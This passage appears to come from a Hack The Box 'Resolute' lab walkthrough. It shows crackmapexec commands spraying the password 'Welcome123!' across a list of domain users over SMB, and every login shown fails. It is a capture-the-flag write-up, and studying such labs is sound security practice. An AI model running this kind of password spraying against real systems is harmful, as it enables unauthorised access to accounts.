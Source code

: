 ```
```
Try the credentials with `crackmapexec` to see if we can login
```
┌──(gemstone㉿hashghost)-[~/…/htb/Machines/vip/resolute]
└─$ crackmapexec smb 10.10.10.169 -u 'marco'  -p 'Welcome123!'                                                                                                                                                                         
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marco:Welcome123! STATUS_LOGON_FAILURE 
```
The user `marco` did not work with the password `Welcome123!` but since we have a list of users then we can brute-force them to see if there is any lucky.

**Command**
```
┌──(gemstone㉿hashghost)-[~/…/Machines/vip/resolute/creds]
└─$ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!'                      
```
**Result**
```
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Administrator:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Guest:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\krbtgt:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE 
```